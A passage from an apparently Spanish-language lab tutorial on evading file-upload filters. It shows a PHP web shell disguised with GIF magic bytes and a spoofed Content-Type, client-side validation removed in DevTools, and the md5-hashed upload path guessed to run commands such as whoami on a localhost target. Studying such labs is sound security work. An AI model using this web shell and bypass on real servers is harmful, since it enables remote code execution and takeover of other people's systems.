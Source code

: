 Acción:

```html
Content-Disposition: form-data; name="fileToUpload"; filename="cmd.php"

Content-Type: images/gif


GIF8;


<?php
  system($_GET['cmd']);
?>

```

Explicación:  modificamos la cabecera `Content-Type` a `image/gif` y en el payload añadimos al principio los caracteres típicos por los que empieza un archivo *GIF* para poder sortear la restricción que se pueda estar haciendo al leer los *magic numbers* del payload.

**Nota:** si nos salta una ventana emergente al enviar la petición, lo más probable es que se este aplicando una sanitización del lado del cliente, como vimos en el segundo caso, para ello de nuevo en el DevTools quitamos el apartado de `Validation` y continuamos el ejercicio, ya que se pueden concatenar diferentes restricciones

**Nota:** `GIF8;` es un pequeño truco, pero el byte real esperado sería algo como `GIF89a` o `GIF87a`

---

## Sanitización ocultando el directorio de almacenamiento con hash

![Captura](./Imágenes/burpsuite_4.png)

![Captura](./Imágenes/burpsuite_3.png)


Acción: 

```bash
echo -n "cdm" | md5sum

echo -n "cdm.php" | md5sum

md5sum cdm.php
```

Resultado:

```bash
http://localhost:9001/upload31/uploads/dfff0a7fa1a55c8c1a4966c19f6da452.php?cmd=whoami 
```

Explicación:  podemos subir el archivo pero desconocemos la ruta, sin embargo tenemos una pista y es que vemos como al aceptar la subida se nos muestra una imagen gif, la cual vemos que esta almacenada no bajo un nombre si no bajo un código *md5sum* ya que vemos que tiene 32 caracteres. Por lo que procedemos a hashear en md5sum el nombre de nuestro archivo subido para ver si realmente se almacena de esta forma. Habría que probar si es el hash de 'cmd', de 'cmd.php' o del propio archivo 'cmd.php'
